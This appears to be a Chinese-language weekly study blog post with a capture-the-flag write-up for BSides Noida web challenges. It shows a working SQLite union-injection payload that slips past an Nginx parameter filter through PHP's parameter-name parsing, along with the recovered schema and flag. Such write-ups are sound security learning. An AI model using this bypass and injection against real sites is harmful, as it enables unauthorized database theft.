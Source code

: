 ```yaml
---
butterId: mixin // blog image bucket id [Don't remove]
---
```


# Week9 Summary

## What have I done

- BSides Noida CTF 复现
- RaRCTF 整理复现中

## [WriteUp] How did I accomplish these things

### Web

#### Baby Web

> Just a place to see list of all challs from bsides noida CTF, maybe some flag too xD
> Note : Bruteforce is not required.

题目给出的是一个 SQLite 注入点，但是 Nginx 禁用了所有字母。根据给出的附件可知根目录下有 `karma.db`，访问到 `/karma.db` 将其下载下来。使用 SQLite Expert 读取即可得到 flag。

![](https://api.lemonprefect.cn/image/hdslb/archive/824f1fae-1c61-4acb-8561-3e2bcd829477/1628492691729899/778de3c107ceaff1a2882396a0f81a783dd28c4c.png)

```flag
BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}
```

#### Baby Web Revenge

> So close yet so far

再来审视一下 Nginx 的过滤。

```nginx
if($arg_chall_id ~ [A-Za-z_.%]){
	return 500;
}
```

这里其实只看了参数 chall_id，但是因为后端是 PHP，所以 chall.id 实际上也会被 PHP 解析成 chall_id。但是到 Nginx 时却不会被这么处理，因此得以绕过 Nginx 的过滤。结合后端是 SQLite，使用如下载荷即可读取信息。

```sqlite
chall.id=1/**/union/**/select/**/group_concat(sql),2,3,4,5,6/**/from/**/sqlite_master
```

得到如下表结构，进而尝试读取 flag。

```sqlite
CREATE TABLE CTF(
    id INteger AUTO_INCREMENT,
    title varchar(255) not NULL,
    description varchar(255) not NULL,
    category varchar(255) not NULL,
    author varchar(255) not NULL,
    points int NOT NULL),
CREATE TABLE therealflags(
    id int AUTO_INCREMENT,
    flag varchar(255) not NULL)
```
